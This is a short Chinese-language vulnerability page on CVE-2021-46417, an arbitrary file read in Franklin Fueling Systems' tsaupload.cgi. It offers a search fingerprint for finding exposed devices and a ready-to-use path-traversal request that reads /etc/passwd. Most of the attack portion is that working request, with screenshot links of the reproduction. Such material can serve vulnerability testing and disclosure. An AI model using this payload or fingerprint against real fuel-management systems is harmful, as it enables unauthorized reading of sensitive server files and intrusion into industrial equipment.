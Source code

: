 # Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>Franklin Fueling Systems</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Franklin Fueling Systems"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657420562693-75382d60-8299-4a3e-89b0-22a22a913500.png)

验证POC

```php
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657420647065-c03ec27d-901d-4bec-9949-b269306f4252-20220710103840550.png)